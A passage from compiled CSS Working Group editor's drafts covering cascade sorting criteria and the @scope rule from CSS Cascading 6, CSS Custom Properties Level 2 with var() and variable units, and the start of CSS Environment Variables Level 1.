  2. Important user agent declarations
  3. Important user declarations
  4. Important author declarations
  5. Animation declarations [css-animations-1]
  6. Normal author declarations
  7. Normal user declarations
  8. Normal user agent declarations

  Declarations from origins earlier in this list win over declarations from later origins.

**Context**

: A document language can provide for blending declarations sourced from different **encapsulation contexts**, such as the nested tree contexts of shadow trees in the [DOM].

  When comparing two declarations that are sourced from different encapsulation contexts, then for normal rules the declaration from the outer context wins, and for important rules the declaration from the inner context wins. For this purpose, [DOM] tree contexts are considered to be nested in shadow-including tree order.

  > **Note:** This effectively means that normal declarations belonging to an encapsulation context can set defaults that are easily overridden by the outer context, while important declarations belonging to an encapsulation context can enforce requirements that cannot be overridden by the outer context.

**The Style Attribute**

: Separately for normal and important declarations, declarations that are attached directly to an element (such as the [contents of a style attribute](#css-style-attr-1:interpret)) rather than indirectly mapped by means of a style rule selector take precedence over declarations the same importance that are mapped via style rule.

**Layers**

: Declarations within each origin and context can be explicitly assigned to a cascade layer. For the purpose of this step, any declaration not assigned to an explicit layer is added to an implicit final layer.

  Cascade layers (like declarations) are sorted by order of appearance, see [§ 3.4.1 Layer Ordering](#css-cascade-6:layer-ordering). When comparing declarations that belong to different layers, then for normal rules the declaration whose cascade layer is latest in the layer order wins, and for important rules the declaration whose cascade layer is earliest wins.

  > **Note:** This follows the same logic used for precedence of normal and important origins, thus the `!important` flag maintains the same “override” purpose in both settings.

**Specificity**

: The [Selectors module](#selectors-4:specificity) [SELECT] describes how to compute the specificity of a selector.

  When comparing declarations from two style rules, the declaration belonging to the style rule with the highest specificity wins.

****Scope Proximity****

: When comparing declarations that appear in style rules with different scoping roots, then the declaration with the fewest generational or sibling-element hops between the scoping root and the scoped style rule subject wins. For this purpose, style rules without a scoping root are considered to have infinite proximity hops.

**Order of Appearance**

: The last declaration in document order wins. For this purpose:

  - Style sheets are ordered as in [final CSS style sheets](#cssom-1:documentorshadowroot-final-css-style-sheets).
  - Declarations from `imported style sheets` are ordered as if their style sheets were substituted in place of the `@import` rule.
  - Declarations from style sheets independently linked by the originating document are treated as if they were concatenated in linking order, as determined by the host document language.
  - Declarations from style attributes are ordered according to the document order of the element the style attribute appears on, and are all placed after any style sheets. [CSSSTYLEATTR]

The **output of the cascade** is a (potentially empty) sorted list of declared values for each property on each element.

#### 3.2.  Cascading Origins {#css-cascade-6:cascading-origins}

> **Issue:** [CSS Cascading 5 § 6.2 Cascading Origins](#css-cascade-5:cascading-origins)

**cascade origin**

#### 3.3.  Important Declarations: the `!important` annotation {#css-cascade-6:importance}

> **Issue:** [CSS Cascading 5 § 6.3 Important Declarations: the !important annotation](#css-cascade-5:importance)

**important** **normal**

#### 3.4.  Cascade Layers {#css-cascade-6:layering}

> **Issue:** [CSS Cascading 5 § 6.4 Cascade Layers](#css-cascade-5:layering)

##### 3.4.1.  Layer Ordering {#css-cascade-6:layer-ordering}

> **Issue:** [CSS Cascading 5 § 6.4.3 Layer Ordering](#css-cascade-5:layer-ordering)

#### 3.5.  Scoping Styles: the `@scope` rule {#css-cascade-6:scoped-styles}

A **scope** is a subtree or fragment of a document, which can be used by selectors for more targeted matching. A scope is formed by determining:

- The scoping root node, which acts as the upper bound of the scope, and optionally:
- The **scoping limit** elements, which act as the lower bounds.

An element is **in scope** if:

- It is an inclusive descendant of the scoping root, and
- It is not an inclusive descendant of a scoping limit.

> **Note:** In contrast to [Shadow Encapsulation](https://drafts.csswg.org/css-scoping/#shadow-dom), which describes a persistent one-to-one relationship in the DOM between a shadow host and its nested shadow tree, multiple overlapping scopes can be defined in relation to the same elements.

Scoped styles are described in CSS using the **@scope** block at-rule, which declares a scoping root and optional scoping limits associated with a set of style rules.

> **Example:** For example, an author might have wide-reaching color-scheme scopes, which overlap more narrowly-scoped design patterns such as a media object. The selectors in the `@scope` rule establish scoping root and optional scoping limit elements, while the nested selectors only match elements that are in a resulting scope:
>
> ```
> @scope (.light-scheme) {
>   /* Only match links inside a light-scheme */
>   a { color: darkmagenta; }
> }
>
> @scope (.dark-scheme) {
>   /* Only match links inside a dark-scheme */
>   a { color: plum; }
> }
>
> @scope (.media-object) {
>   /* Only match author images inside a media-object */
>   .author-image { border-radius: 50%; }
> }
> ```

> **Example:** By providing scoping limits, an author can limit matching more deeply nested descendants. For example:
>
> ```
> @scope (.media-object) to (.content > *) {
>   img { border-radius: 50%; }
>   .content { padding: 1em; }
> }
> ```
>
> The `img` selector will only match image tags that are in a DOM fragment starting with any `.media-object`, and including all descendants up to any intervening children of the `.content` class.

> **Issue:** Should scoping limits be added to the definition of scoped selectors?

##### 3.5.1.  Effects of `@scope` {#css-cascade-6:scope-effects}

The `@scope` at-rule has three primary effects on the style rules it contains:

- The style rules in an `@scope` `<rule-list>` are scoped style rules.
- The `:scope` selector is defined to match the `@scope` rule’s scoping root, including the featureless shadow host when that host is the scoping root.
- The `&` selector is defined to behave as `:where(:scope)`.
- The cascade prioritizes declarations with a more proximate scoping root, regardless of specificity or order of appearance by applying scope proximity between the scoping root and the subject of each scoped style rule.

> **Note:** Unlike [Nesting](#css-nesting-1), selectors within an `@scope` rule do not acquire the specificity of any parent selector(s) in the `@scope` prelude.

> **Example:** The following selectors have the same specificity (0,0,1):
>
> ```
> @scope (#hero) {
>   img { border-radius: 50%; }
> }
>
> :where(#hero) img { border-radius: 50%; }
> ```
>
> The additional specificity of the `#hero` selector is not applied to the specificity of the scoped selector. However, since one `img` selector is scoped, that selector is weighted more strongly in the cascade with the application of scope proximity.

> **Example:** Many existing tools implement "scoped styles" by applying a unique class or attribute to every element in a given scope or "single file component." In this example there are two scopes (`main-component` and `sub-component`) and every element is marked as part of one or both scopes using the `data-scope` attribute:
>
> ```html
> <section data-scope="main-component">
>   <p data-scope="main-component">...<p>
>
>   <!-- sub-component root is in both scopes -->
>   <section data-scope="main-component sub-component">
>     <!-- children are only in the inner scope -->
>     <p data-scope="sub-component">...<p>
>   </section>
> </section>
> ```
>
> Those custom scope attributes are then appended to every single selector in CSS:
>
> ```
> p[data-scope~='main-component'] { color: red; }
> p[data-scope~='sub-component'] { color: blue; }
>
> /* both sections are part of the outer scope */
> section[data-scope~='main-component'] { background: snow; }
>
> /* the inner section is also part of the inner scope */
> section[data-scope~='sub-component'] { color: ghostwhite; }
> ```
>
> Using the `@scope` rule, authors and tools can replicate similar behavior with the unique attribute or class applied only to the scoping roots:
>
> ```html
> <section data-scope="main-component">
>   <p>...<p>
>   <section data-scope="sub-component">
>     <p>...<p>
>   </section>
> </section>
> ```
>
> Then the class or attribute can be used for establishing both upper and lower boundaries. Elements matched by a lower boundary selector are excluded from the resulting scope, which allows authors to create non-overlapping scopes by default:
>
> ```
> @scope ([data-scope='main-component']) to ([data-scope]) {
>   p { color: red; }
>
>   /* only the outer section is part of the outer scope */
>   section { background: snow; }
> }
>
> @scope ([data-scope='sub-component']) to ([data-scope]) {
>   p { color: blue; }
>
>   /* the inner section is only part of the inner scope */
>   section { color: ghostwhite; }
> }
> ```
>
> However, authors can use the child combinator and universal selector to create scope boundaries that overlap, such that the inner scope root is part of both scopes:
>
> ```
> @scope ([data-scope='main-component']) to ([data-scope] > *) {
>   p { color: red; }
>
>   /* both sections are part of the outer scope */
>   section { background: snow; }
> }
> ```

##### 3.5.2.  Syntax of `@scope` {#css-cascade-6:scope-syntax}

The syntax of the `@scope` rule is:

```css
@scope <scope-boundaries>? {
  <block-contents>
}
```

with `<scope-boundaries>` defined as:

```css
<scope-boundaries> =  [ [ ( <scope-start> ) ]? [ to ( <scope-end> ) ]? ]!
```

and where:

- **`<scope-start>`** is a `<selector-list>` selector used to identify the scoping root(s).
- **`<scope-end>`** is a `<selector-list>` selector used to identify any scoping limits.
- the qualified rules within `<block-contents>`, as well as any nested declarations rules produced by [scoped declarations](#css-cascade-6:scoped-declarations), represents the scoped style rules.

Pseudo-elements cannot be scoping roots or scoping limits; they are invalid both within `<scope-start>` and `<scope-end>`.

##### 3.5.3.  Scoped Style Rules {#css-cascade-6:scoped-rules}

**Scoped style rules** differ from non-scoped rules in the following ways:

- Their selectors can only match elements that are in scope. (This only applies to the subject; the rest of the selector can match unrestricted.)
- They accept a `<relative-selector-list>` as their prelude (rather than just a `<selector-list>`). Such relative selectors are relative to `:scope`.
- Any selector in the `<relative-selector-list>` that does not start with a combinator but does contain the nesting selector or the `:scope` selector, is interpreted as a non-relative selector (but the subject must still be in scope to match).

> **Example:** By default, selectors in a scoped style rule are relative selectors, with the scoping root and descendant combinator implied at the start. The following selectors will match the same elements:
>
> ```
> @scope (#my-component) {
>   p { color: green; }
>   :scope p { color: green; }
> }
> ```
>
> Authors can adjust the implied relationship by adding an explicit combinator:
>
> ```
> @scope (#my-component) {
>   > p { color: green; }
>   :scope > p { color: green; }
> }
> ```
>
> Authors can also target or explicitly position the scoping root in a selector by including either `:scope` or `&` in a given selector:
>
> ```
> @scope (#my-component) {
>   :scope { border: thin solid; }
>   & { border: thin solid; }
>
>   main :scope p { color: green; }
>   main & p { color: green; }
> }
> ```
>
> Both the `:scope` and `&` selectors match the scope root, but with different specificity: `:scope` has as specificity of (0,1,0), whereas `&` has a specificity of 0.

##### 3.5.4.  Identifying Scoping Roots and Limits {#css-cascade-6:scope-limits}

A `@scope` rule produces one or more scopes as follows:

**Finding the scoping root(s)**

: For each element matched by `<scope-start>`, create a scope using that element as the scoping root. If no <scope-start> is specified, the scoping root is the parent element of the owner node of the stylesheet where the `@scope` rule is defined. (If no such element exists and the containing node tree is a shadow tree, then the scoping root is the shadow host. Otherwise, the scoping root is the root of the containing node tree.) Any `:scope` or `&` selectors in <scope-start> are interpreted as defined for its outer context.

**Finding any scoping limits**

: For each scope created by a scoping root, its scoping limits are set to all elements that are descendants of the scoping root and that match `<scope-end>`, interpreting `:scope` and `&` exactly as in scoped style rules.

> **Example:** Authors can establish local scoping for `style` elements by leaving out the `<scope-start>` selector. For example:
>
> ```html
> <div>
>   <style>
>     @scope {
>       p { color: red; }
>     }
>   </style>
>   <p>this is red</p>
> </div>
> <p>not red</p>
> ```
>
> That would be equivalent to:
>
> ```html
> <div id="foo">
>   <style>
>     @scope (#foo) {
>       p { color: red; }
>     }
>   </style>
>   <p>this is red</p>
> </div>
> <p>not red</p>
> ```

> **Example:** Scoping limits can use the `:scope` pseudo-class to require a specific relationship to the scoping root:
>
> ```
> /* .content is only a limit when it is a direct child of the :scope */
> @scope (.media-object) to (:scope > .content) { ... }
> ```
>
> Scoping limits can also reference elements outside their scoping root by using `:scope`. For example:
>
> ```
> /* .content is only a limit when the :scope is inside .sidebar */
> @scope (.media-object) to (.sidebar :scope .content) { ... }
> ```

##### 3.5.5.  Scope Nesting {#css-cascade-6:scope-scope}

`@scope` rules can be nested. In this case, just as with the nested style rules, the prelude selectors of the inner `@scope` (those defining its scope) are scoped by the selectors of the outer one.

> **Note:** The resulting scope for further nested scoped style rules is practically constrained by both the outer and inner `@scope` rules, but the scoping root is defined by the innermost `@scope`. Since scope proximity is measured between a scoped style rule subject and scoping root, only the innermost `@scope` matters for determining scope proximity of [nested @scope rules](#css-cascade-6:scope-scope).

> **Issue:** Should the scope proximity calculation be impacted by nesting scopes? [[Issue #10795]](https://github.com/w3c/csswg-drafts/issues/10795)

> **Example:** When nesting `@scope` rules inside other `@scope` rules, or inside other selectors, the `<scope-start>` selector is relative to the nesting context, while the `<scope-end>` and any scoped style rules are relative to the scoping root For example, the following code:
>
> ```
> @scope (.parent-scope) {
>   @scope (:scope > .child-scope) to (:scope .limit) {
>     :scope .content {
>       color: red;
>     }
>   }
> }
> ```
>
> is equivalent to:
>
> ```
> @scope (.parent-scope > .child-scope) to (.parent-scope > .child-scope .limit) {
>   .parent-scope > .child-scope .content {
>     color: red;
>   }
> }
> ```

Global name-defining at-rules such as `@keyframes` or `@font-face` or `@layer` that are defined inside `@scope` are valid, but are not scoped or otherwise affected by the enclosing `@scope` rule. However, any style rules contained by such rules (e.g. within `@layer`) are scoped.

##### 3.5.6.  Scoped Declarations {#css-cascade-6:scoped-declarations}

Declarations may be used directly with the body of a `@scope` rule. Contiguous runs of declarations are wrapped in nested declarations rules, which match the scoping root with zero specificity.

> **Example:** ```
> @scope (.foo) {
>   border: 1px solid black;
> }
> ```
>
> is equivalent to:
>
> ```
> @scope (.foo) {
>   :where(:scope) {
>     border: 1px solid black;
>   }
> }
> ```

Just like for style rules, declarations and child rules may be [mixed](#css-nesting-1:mixing) within `@scope`.

#### 3.6.  Precedence of Non-CSS Presentational Hints {#css-cascade-6:preshint}

> **Issue:** [CSS Cascading 5 § 6.4 Cascade Layers](#css-cascade-5:layering)

### 4. CSSOM {#css-cascade-6:cssom}

#### 4.1.  The `CSSScopeRule` interface {#css-cascade-6:the-cssscoperule-interface}

The `CSSScopeRule` interface represents the `@scope` rule:

```webidl
[Exposed=Window]
interface CSSScopeRule : CSSGroupingRule {
  readonly attribute CSSOMString? start;
  readonly attribute CSSOMString? end;
};
```

**`start` of type `CSSOMString`**

: The `start` attribute returns the result of serializing the `<scope-start>` of the rule (without the enclosing parentheses), or null if there is no <scope-start>.

**`end` of type `CSSOMString`**

: The `end` attribute returns the result of serializing the `<scope-end>` of the rule (without the enclosing parentheses), or null if there is no <scope-end>.

---

## CSS Custom Properties for Cascading Variables Module Level 2 {#css-variables-2}

- **Shortname:** `css-variables-2`
- **Editor's Draft:** [https://drafts.csswg.org/css-variables-2/](https://drafts.csswg.org/css-variables-2/)
- **W3C Status:** ED (exploring)
- **Last Edited:** 2026-10-09

### 1.  Introduction {#css-variables-2:intro}

*This section is not normative.*

Large documents or applications (and even small ones) can contain quite a bit of CSS. Many of the values in the CSS file will be duplicate data; for example, a site may establish a color scheme and reuse three or four colors throughout the site. Altering this data can be difficult and error-prone, since it’s scattered throughout the CSS file (and possibly across multiple files), and may not be amenable to Find-and-Replace.

This module introduces a family of custom author-defined properties known collectively as custom properties, which allow an author to assign arbitrary values to a property with an author-chosen name, and the `var()` function, which allow an author to then use those values in other properties elsewhere in the document. This makes it easier to read large files, as seemingly-arbitrary values now have informative names, and makes editing such files much easier and less error-prone, as one only has to change the value once, in the custom property, and the change will propagate to all uses of that variable automatically.

#### 1.1.  Value Definitions {#css-variables-2:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

### 2.  Defining Custom Properties: the `--*` family of properties {#css-variables-2:defining-variables}

This specification defines an open-ended set of properties called custom properties, which, among other things, are used to define the substitution value of `var()` functions.

| Field | Value |
| --- | --- |
| Name: | **--*** |
| [Value:](#css-values-4:value-defs) | `<declaration-value>`? |
| [Initial:](#css-cascade-6:initial-values) | the guaranteed-invalid value |
| [Applies to:](#css-cascade-5:applies-to) | all elements and all pseudo-elements (including those with restricted property lists) |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified value with variables substituted, or the guaranteed-invalid value |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

*User agents are expected to support this property on all media, including non-visual ones.*

A **custom property** is any property whose name starts with two dashes (U+002D HYPHEN-MINUS), like `--foo`. The **<custom-property-name>** production corresponds to this: it’s defined as any `<dashed-ident>` (a valid identifier that starts with two dashes), except `--` itself, which is reserved for future use by CSS. Custom properties are solely for use by authors and users; CSS will never give them a meaning beyond what is presented here.

> **Example:** Custom properties define variables, referenced with the `var()` notation, which can be used for many purposes. For example, a page that consistently uses a small set of colors in its design can store the colors in custom properties and use them with variables:
>
> ```
> :root {
>   --main-color: #06c;
>   --accent-color: #006;
> }
> /* The rest of the CSS file */
> #foo h1 {
>   color: var(--main-color);
> }
> ```
>
> The naming provides a mnemonic for the colors, prevents difficult-to-spot typos in the color codes, and if the theme colors are ever changed, focuses the change on one simple spot (the custom property value) rather than requiring many edits across all stylesheets in the webpage.

Unlike other CSS properties, custom property names are *not* ASCII case-insensitive. Instead, custom property names are only equal to each other if they are identical to each other.

> **Example:** While both `--foo` and `--FOO` are valid, they are distinct properties —​using `var(--foo)` will refer to the first one, while using `var(--FOO)` will refer to the second.
>
> Perhaps more surprisingly, `--foó` and `--foó` are distinct properties. The first is spelled with U+00F3 (LATIN SMALL LETTER O WITH ACUTE) while the second is spelled with an ASCII "o" followed by U+0301 (COMBINING ACUTE ACCENT), and the "identical to" relation uses direct codepoint-by-codepoint comparison to determine if two strings are equal, to avoid the complexities and pitfalls of unicode normalization and locale-specific collation.

Operating systems, keyboards, or input methods sometimes encode visually-identical text using different codepoint sequences. Authors are advised to choose variable names that avoid potential confusion or to use escapes and other means to ensure that similar appearing sequences are identical. See Section 2.3 in [CHARMOD-NORM] for examples.

> **Example:** Developers maintaining the following CSS might be confused why the test patch is red:
>
> ```
> --fijord: red;
> --fijord: green;
> --fijord: blue;
>
> .test {
>   background-color: var(--fijord);
> }
> ```
>
> The reason is that the first custom property uses the character sequence LATIN SMALL LETTER F + LATIN SMALL LETTER I + LATIN SMALL LETTER J; the second, identical-looking one uses the character sequence LATIN SMALL LETTER F + LATIN SMALL LIGATURE IJ while the third uses the character sequence LATIN SMALL LIGATURE FI + LATIN SMALL LETTER J.
>
> So the CSS contains three distinct custom properties, two of which are unused.

Custom properties are **not** reset by the `all` property. We may define a property in the future that resets all variables.

The CSS-wide keywords can be used in custom properties, with the same meaning as in any another property.

> **Note:** That is, they’re interpreted at cascaded-value time as normal, and are not preserved as the custom property’s value, and thus are not substituted in by the corresponding variable.

> **Note:** While this module focuses on the use of custom properties with the `var()` function to create “variables”, they can also be used as actual custom properties, parsed by and acted on by script. It’s expected that the CSS Extensions spec [CSS-EXTENSIONS] will expand on these use-cases and make them easier to do.

Custom properties are ordinary properties, so they can be declared on any element, are resolved with the normal inheritance and cascade rules, can be made conditional with `@media` and other conditional rules, can be used in HTML’s `style` attribute, can be read or set using the CSSOM, etc.

Notably, they can even be animated, but since the UA has no way to interpret their contents, they always use the "flips at 50%" behavior that is used for any other pair of values that can’t be intelligently interpolated. However, any custom property used in a `@keyframes` rule becomes **animation-tainted**, which affects how it is treated when referred to via the `var()` function in an animation property.

> **Note:** Like any other property that animates discretely, custom properties can’t be transitioned. Registered custom properties can, however, if given a syntax that has non-discrete animation behavior.

Animation-tainted is "infectious": custom properties which reference animation-tainted properties also become animation-tainted.

> **Example:** This style rule:
>
> ```
> :root {
>   --header-color: #06c;
> }
> ```
>
> declares a custom property named `--header-color` on the root element, and assigns to it the value "#06c". This property is then inherited to the elements in the rest of the document. Its value can be referenced with the `var()` function:
>
> ```
> h1 { background-color: var(--header-color); }
> ```
>
> The preceding rule is equivalent to writing `background-color: #06c;`, except that the variable name makes the origin of the color clearer, and if `var(--header-color)` is used on other elements in the document, all of the uses can be updated at once by changing the `--header-color` property on the root element.

> **Example:** If a custom property is declared multiple times, the standard cascade rules help resolve it. Variables always draw from the computed value of the associated custom property on the same element:
>
> ```
> :root { --color: blue; }
> div { --color: green; }
> #alert { --color: red; }
> * { color: var(--color); }
>
> <p>I inherited blue from the root element!</p>
> <div>I got green set directly on me!</div>
> <div id='alert'>
>   While I got red set directly on me!
>   <p>I'm red too, because of inheritance!</p>
> </div>
> ```

> **Example:** A real-world example of custom property usage is easily separating out strings from where they’re used, to aid in maintenance of internationalization:
>
> ```css
> :root,
> :root:lang(en) {--external-link: "external link";}
> :root:lang(el) {--external-link: "εξωτερικός σύνδεσμος";}
>
> a[href^="http"]::after {content: " (" var(--external-link) ")"}
> ```
>
> The variable declarations can even be kept in a separate file, to make maintaining the translations simpler.

#### 2.1.  Custom Property Value Syntax {#css-variables-2:syntax}

The allowed syntax for custom properties is extremely permissive. The `<declaration-value>` production matches *any* sequence of one or more tokens, so long as the sequence does not contain `<bad-string-token>`, `<bad-url-token>`, unmatched `<)-token>`, `<]-token>`, or `<}-token>`, or top-level `<semicolon-token>` tokens or `<delim-token>` tokens with a value of "!".

In addition, if the value of a custom property contains a `var()` reference, the `var()` reference must be valid according to the specified `var()` grammar. If not, the custom property is invalid and must be ignored.

> **Note:** This definition, along with the general CSS syntax rules, implies that a custom property value never includes an unmatched quote or bracket, and so cannot have any effect on larger syntax constructs, like the enclosing style rule, when reserialized.

> **Note:** Custom properties can contain a trailing `!important`, but this is automatically removed from the property’s value by the CSS parser, and makes the custom property "important" in the CSS cascade. In other words, the prohibition on top-level "!" characters does not prevent `!important` from being used, as the `!important` is removed before syntax checking happens.

> **Example:** For example, the following is a valid custom property:
>
> ```
> --foo: if(x > 5) this.width = 10;
> ```
>
> While this value is obviously useless as a *variable*, as it would be invalid in any normal property, it might be read and acted on by JavaScript.

The values of custom properties, and the values of `var()` functions substituted into custom properties, are *case-sensitive*, and must be preserved in their original author-given casing. (Many CSS values are ASCII case-insensitive, which user agents can take advantage of by "canonicalizing" them into a single casing, but that isn’t allowed for custom properties.)

> **Note:** Because custom properties can contain *anything*, there is no general way to know how to interpret what’s inside of them (until they’re substituted into a known property with `var()`). Rather than have them *partially* resolve in some cases but not others, they’re left completely unresolved; they’re a bare stream of [CSS tokens](#css-syntax-3:tokenization) interspersed with `var()` functions.
>
> This has some knock-on implications. For example, relative URLs in CSS are resolved against the base URL of the stylesheet the value appears in. However, if a custom property like `--my-image: url(foo.jpg);` shows up in an `"/a/style.css"` stylesheet, it will not resolve into an absolute URL immediately; if that variable is later used in a *different* `"/b/style.css"` stylesheet like `background: var(--my-image);`, it will resolve *at that point* to `"/b/foo.jpg"`.

#### 2.2.  Guaranteed-Invalid Values {#css-variables-2:guaranteed-invalid}

The initial value of a custom property is a **guaranteed-invalid value**.

The guaranteed-invalid value is, well, guaranteed to be invalid. If it ever appears in a property value, then at computed value time that property becomes invalid at computed-value time.

Non-property contexts will define their own behavior for the guaranteed-invalid value, but it will always be "invalid" in some sense.

The guaranteed-invalid value serializes as the empty string, but actually writing an empty value into a custom property, like `--foo:;`, is a valid (empty) value, not the guaranteed-invalid value. If, for whatever reason, one wants to manually reset a custom property to the guaranteed-invalid value, using the keyword `initial` will do this.

> **Note:** Other than invoking the initial value of a non-registered custom property, the only way to create the guaranteed-invalid value is by having an invalid arbitrary substitution function.

### 3.  Using Cascading Variables: the `var()` notation {#css-variables-2:using-variables}

The value of a custom property can be substituted into the value of another property with the `var()` function. The syntax of `var()` is:

```css
var() = var( <custom-property-name> , <declaration-value>? )
```

The `var()` function is an arbitrary substitution function, and its argument grammar is:

```css
<var-args> = var( <declaration-value> , <declaration-value>? )
```

The first argument to the function is the name of the custom property to be substituted. The second argument to the function, if provided, is a fallback value, which is used as the substitution value when the value of the referenced custom property is the guaranteed-invalid value.

In an exception to the usual comma elision rules, which require commas to be omitted when they’re not separating values, a bare comma, with nothing following it, must be treated as valid in `var()`, indicating an empty fallback value.

> **Note:** That is, `var(--a,)` is a valid function, specifying that if the `--a` custom property is invalid or missing, the `var()` should be replaced with nothing.

> **Note:** The syntax of the fallback, like that of custom properties, allows commas. For example, `var(--foo, red, blue)` defines a fallback of `red, blue`; that is, anything between the first comma and the end of the function is considered a fallback value.

> **Example:** The fallback value allows for some types of defensive coding. For example, an author may create a component intended to be included in a larger application, and use variables to style it so that it’s easy for the author of the larger application to theme the component to match the rest of the app.
>
> Without fallback, the app author must supply a value for every variable that your component uses. With fallback, the component author can supply defaults, so the app author only needs to supply values for the variables they wish to override.
>
> ```
> /* In the component's style: */
> .component .header {
>   color: var(--header-color, blue);
> }
> .component .text {
>   color: var(--text-color, black);
> }
>
> /* In the larger application's style: */
> .component {
>   --text-color: #080;
>   /* header-color isn't set,
>      and so remains blue,
>      the fallback value */
> }
> ```

To **replace a var() function**, given a list of *arguments*:

1. Let *el* be the element that the style containing the `var()` function is being applied to. Let *first arg* be the first `<declaration-value>` in *arguments*. Let *second arg* be the <declaration-value>? passed after the comma, or null if there was no comma.
2. Substitute arbitrary substitution functions in *first arg*, then parse it as a `<custom-property-name>`. If parsing returned a <custom-property-name>, let *result* be the computed value of the corresponding custom property on *el*. Otherwise, let *result* be the guaranteed-invalid value.

   > **Note:** Determining the computed value for the custom property implies that property replacement takes place, which may cause a cycle.
3. If the custom property named by the `var()`’s first argument is animation-tainted, and the `var()` is being used in a property that is not animatable, set *result* to the guaranteed-invalid value.
4. If *result* contains the guaranteed-invalid value, and *second arg* was provided, set *result* to the result of substitute arbitrary substitution functions on *second arg*.
5. Return *result*.

> **Example:** Due to property replacement, custom properties can form cycles:
>
> ```
> :root {
>   --one: calc(var(--two) + 20px);
>   --two: calc(var(--one) - 20px);
> }
> ```
>
> In the above, both `--one` and `--two` compute to the guaranteed-invalid value, since their substitution contexts have been marked as cyclic.

> **Example:** Note that the custom property name looked up by a `var()` may itself come from a `var()` function:
>
> ```
> :root {
>   --other: 10px;
>   --myvar: --other;
>   --result: var(var(--myvar));
> }
> ```
>
> Since the inner `var()` is resolved before the outer `var()`, the computed value of `--result` becomes 10px.

#### 3.1.  Variable Units {#css-variables-2:variable-units}

In addition to being referenced directly with the `var()` function, custom properties can be referenced as custom units, making it easy to use multiples of significant "base sizes" in a document, perhaps established by a design system.

A dimension whose unit is a `<dashed-ident>` is a **variable unit reference**. It has identical effects and restrictions to using `var()`; the unit name is the custom property being referenced.

The only difference is during substitution—​rather than just substituting the custom property value directly, it substitutes as `calc(X * (var(Y)))`, where X is numeric component of the dimension, and Y is the unit component of the dimension.

> **Example:** For example, "fluid typography" sizes text according to the viewport size. A very simple version of this can be created as:
>
> ```
> @property --fem { /* "fluid em" */
>   syntax: "<length>";
>   initial: 2vw;
>   inherits: true;
> }
>
> .fluid-type {
>   font-size: 1.2--fem;
>   /* equivalent to */
>   font-size: calc(1.2 * (var(--fem)));
> }
> ```
>
> More complex expressions can be used as well. For example, fluid typography often wants to impose limits on *how much* the size responds to the viewport, to avoid degenerate situations on very large or very small screens:
>
> ```
> @property --fem { /* "fluid em" */
>   syntax: "<length>";
>   initial: clamp(10px, 1vw + 1vh, 1rem);
>   inherits: true;
> }
>
> .fluid-type {
>   font-size: 1.2--fem;
>   /* Won't get smaller than 12px,
>      or larger than 1.2rem. */
> }
> ```
>
> As the variable unit reference is a custom property reference, it can be overridden by setting the custom property normally. This can be useful to specialize a component for a particular position on the page, while still styling it generically:
>
> ```
> @property --bs { /* block size */
>   syntax: "<length>";
>   initial: 8px;
>   inherits: true;
> }
>
> .module {
>   margin-block: 1.5--bs;
>   border-block: .5--bs;
>   /* gives a vertical margin of 12px,
>      and vertical border of 4px */
> }
>
> .sidebar .module {
>   --bs: 6px;
>   /* Makes the components slightly more compact
>      in the sidebar, with a vertical margin of 9px
>      and a vertical border of 3px. */
> }
> ```

> **Note:** Variable unit references can’t have fallback values, so if the referenced custom property doesn’t exist or is invalid, the unit reference will be invalid as well. Use `@property` to create a registered custom property, as the `initial`' value will instead be used as the default.

> **Note:** While variable unit references clearly expect their referenced custom property to have a numeric value (so that it’s valid to substitute into a `calc()`), nothing enforces this. Supplying a non-numeric value, such as by using `--fem: red;` to override the initial value in the above examples, will simply result in an invalid property after substitution, like `font-size: calc(1.2 * (red));`.

### 4.  APIs {#css-variables-2:apis}

All custom property declarations have the case-sensitive flag set.

> **Note:** Custom properties do not appear on a CSSStyleDeclaration object in camel-cased form, because their names may have both upper and lowercase letters which indicate distinct custom properties. The sort of text transformation that automatic camel-casing performs is incompatible with this. They can still be accessed by their proper name via getPropertyValue()/etc.

#### 4.1.  Serializing Custom Properties {#css-variables-2:serializing-custom-props}

Custom property names must be serialized as the exact code point sequence provided by the author, including not altering the case.

> **Note:** For non-custom properties, property names are restricted to the ASCII range and are ASCII case-insensitive, so implementations typically serialize the name lowercased.

Specified values of custom properties must be serialized *exactly as specified by the author*. Simplifications that might occur in other properties, such as dropping comments, normalizing whitespace, reserializing numeric tokens from their value, etc., must not occur.

Computed values of custom properties must similarly be serialized *exactly as specified by the author*, save for the replacement of any `var()` functions.

> **Example:** For example, given the following properties:
>
> ```
> --y: /* baz */;
> --x: /* foo */ var(--y) /* bar */;
> ```
>
> the serialization of the specified value of `--x` must be `"/* foo */ var(--y) /* bar */"`, while the serialization of the computed value of `--x` must be `"/* foo */ /* baz */ /* bar */"`.
>
> (Note that the leading whitespace on the value is automatically trimmed by the CSS parser; it’s not preserved here.)

> **Note:** This requirement exists because authors sometimes store non-CSS information in custom properties, and "normalizing" this information can change it in ways that break author code.
>
> For example, storing a UUID in a custom property, like `--uuid: 12345678-12e3-8d9b-a456-426614174000`, requires the UUID to be echoed back out as written when it’s accessed by script.
>
> This value is technically parsed by CSS as a series of adjacent numbers and dimensions. In particular, the segment "-12e3" parses as a number, equal to -12000. Reserializing it in that form, as required by CSSOM in other contexts, would fatally break the author’s use of the value.

---

## CSS Environment Variables Module Level 1 {#css-env-1}

- **Shortname:** `css-env-1`
- **Editor's Draft:** [https://drafts.csswg.org/css-env-1/](https://drafts.csswg.org/css-env-1/)
- **Published TR:** [https://www.w3.org/TR/css-env-1](https://www.w3.org/TR/css-env-1)
- **W3C Status:** ED (exploring)
- **Last Edited:** 2026-11-03

### 1. Introduction {#css-env-1:intro}

The [css-variables-1] specification defined the concept of "cascading variables", author-defined variables created from the value of custom properties, capable of being substituted into arbitrary other properties via the `var()` function.

This specification defines a related, but simpler, concept of environment variables. Unlike "cascading variables", which can change throughout the page as their corresponding custom property takes on different values, an environment variable is "global" to a particular document—​its value is the same everywhere. The `env()` function can then be used to substitute the value into arbitrary locations, similar to the `var()` function.

These "global" variables have both benefits and downsides versus cascading variables:

